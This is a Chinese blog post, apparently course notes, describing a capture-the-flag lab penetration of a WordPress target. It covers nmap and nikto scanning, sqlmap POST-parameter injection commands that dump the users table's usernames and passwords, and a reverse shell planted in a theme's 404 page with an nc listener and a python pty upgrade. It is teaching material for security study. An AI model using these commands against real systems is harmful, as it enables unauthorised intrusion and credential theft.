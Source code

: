 ```yaml
---
title: 【网络安全0x07】SQL注入之post参数注入
date: 2020-05-26 17:53:08
tags: [网络安全, burpsuite, sqlmap]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto挖掘敏感目录，使用burpsuite构建post请求的raw文件，用sqlmap进行post参数注入，获取用户名和口令，上传反弹shell，获得权限，拿到flag。

本篇使用工具burpsuite，sqlmap。

<!-- more -->

# 使用命令

## sqlmap

``` bash
# batch可以自动补全询问
sqlmap -r [post请求] --level [1~5] --risk [1~3] --dbs --dbms mysql --batch
sqlmap -r [post请求] --level [1~5] --risk [1~3] -D [‘数据库名’]  --tables --batch
sqlmap -r [post请求] --level [1~5] --risk [1~3] -D [‘数据库名’]  -T [‘表名’] --columns --batch
sqlmap -r [post请求] --level [1~5] --risk [1~3] -D [‘数据库名’]  -T [‘表名’] -C [‘字段名1,字段名2,…’] --dump --batch
```

## nc

``` bash
nc -nlvp 监听端口
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，两个web服务：

``` bash
nmap -sV 192.168.1.117
```

![](./1057/1.PNG)

2. `nikto`挖掘`80`、`8080`端口web信息，找到一个登录页面和一个敏感目录`/img/`：

``` bash
nikto -host http://192.168.1.117/
nikto -host http://192.168.1.117:8080/
```

![](./1057/2.PNG)

![](./1057/3.PNG)

3. 访问登录页面，尝试弱口令**admin**登录失败，查看源码是post请求：

![](./1057/4.PNG)

4. 访问`/img/`目录，没有敏感文件，但是有个**wordpress.png**，说明网站可能是wordpress搭建的：

![](./1057/5.PNG)

5. 尝试访问`/wordpress/wp-login.php`成功找到登录界面，这个页面用dirb也能扫出来，不过有点慢，尝试弱口令**admin**登录同样失败：

![](./1057/6.PNG)

6. 使用burpsuite，首先设置与浏览器的代理ip和端口一致：

![](./1057/7.PNG)

7. 浏览器模拟一次登录，在burpsuite查看raw文件，保存下来给sqlmap用：

![](./1057/8.PNG)

8. sqlmap使用raw文件扫描，获取到数据库列表：

``` bash
sqlmap -r post.raw --level 5 --risk 3 --dbs --dbms mysql --batch
```

![](./1057/9.PNG)

9. 查看敏感数据库，前面几个都是空的，最后的`wordpress8080`有用户表：

``` bash
sqlmap -r post.raw --level 5 --risk 3 -D wordpress8080 --tables --batch
```

![](./1057/10.PNG)

10. 查看`users`表的列：

``` bash
sqlmap -r post.raw --level 5 --risk 3 -D wordpress8080 -T users --cloumns --batch
```

![](./1057/11.PNG)

11. 查看`username`和`password`列的内容，得到用户密码：

``` bash
sqlmap -r post.raw --level 5 --risk 3 -D wordpress8080 -T users -C username,password --dump --batch
```

![](./1057/12.PNG)

12. 制作web反弹shell，修改攻击机IP和端口：

![](./1057/13.PNG)

13. 替换掉主题的404页面，开启监听，访问页面获得权限，优化shell界面并提权，提权密码是前面sqlmap探测到的：

``` bash
nc -nlvp 4444

python -c "import pty;pty.spawn('/bin/bash')"
```

![](./1057/14.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)